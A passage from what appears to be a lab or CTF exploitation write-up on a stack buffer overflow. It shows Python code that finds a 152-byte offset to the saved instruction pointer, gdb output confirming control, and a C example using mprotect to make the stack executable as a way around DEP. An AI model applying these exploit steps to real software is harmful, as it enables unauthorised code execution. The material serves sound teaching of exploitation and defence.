 
## Step 3: Find offset

With trial and error, we find the correct offset to SIP: `152`

```
offset = 152

def doBof(payload):
        print tube.recvuntil("> ")
        tube.send("1");

        print tube.recv()
        tube.send(str(len(payload)));

        print tube.recv()
        tube.send(payload)

        print tube.recv()


payload = "A" * offset + "BBBB"

doBof(payload)
```

Test results in:
```
0x0000000042424242 in ?? ()
gdb-peda$
```


## Plan

Because DEP is enabled, we have to mark the memory area of the stack executable. This is
possible by using the systemcall `mprotect`:

```
int mprotect(void *addr, size_t len, int prot);

mprotect() changes the access protections for the calling process's
       memory pages containing any part of the address range in the interval
       [addr, addr+len-1].  addr must be aligned to a page boundary.
```


## Example mprotect

```
#include <stdio.h>
#include <sys/mman.h>

#define PAGE_SIZE 4096

void main(void) {
        char stackvar[16];
        int ret;
        long long stackbase = (long long)( &stackvar ) & ~(PAGE_SIZE -1); // round down

        printf("Stack var: %p\n", &stackvar);
        printf("Stackbase: 0x%llx\n", stackbase);
        ret = mprotect( (void *) stackbase, 16, PROT_READ|PROT_WRITE|PROT_EXEC);

        printf("Ret: %i\n", ret);
}
```